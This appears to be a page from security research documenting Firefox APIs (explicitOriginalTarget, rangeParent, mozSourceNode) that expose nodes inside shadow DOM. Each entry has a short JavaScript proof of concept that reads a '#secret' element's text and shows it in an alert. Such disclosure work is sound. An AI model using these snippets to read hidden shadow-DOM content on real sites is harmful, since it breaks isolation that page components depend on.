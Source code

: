 ## Event.prototype.explicitOriginalTarget
```js
// Put mouse cursor on Shadow area
window.onmousemove = function(event){
  elem = event.explicitOriginalTarget;
  root = elem.getRootNode();
  if(root instanceof ShadowRoot){
    alert(root.querySelector('#secret').textContent);
  }
}
```
### Impact
DOM node-level access

### Affected browsers
Firefox

## UIEvent.prototype.rangeParent
```js
// Put mouse cursor on Shadow area
window.onmousemove = function(event){
  elem = event.rangeParent;
  root = elem.getRootNode();
  if(root instanceof ShadowRoot){
    alert(root.querySelector('#secret').textContent);
  }
}
```
### Impact
DOM node-level access

### Affected browsers
Firefox

## DataTransfer.prototype.mozSourceNode
```js
// Drag something placed in Shadow area
window.ondrag = function(event){
  node = event.dataTransfer.mozSourceNode;
  root = node.getRootNode();
  if(root instanceof ShadowRoot){
    alert(root.querySelector('#secret').textContent);
  }
}
```
### Impact
DOM node-level access
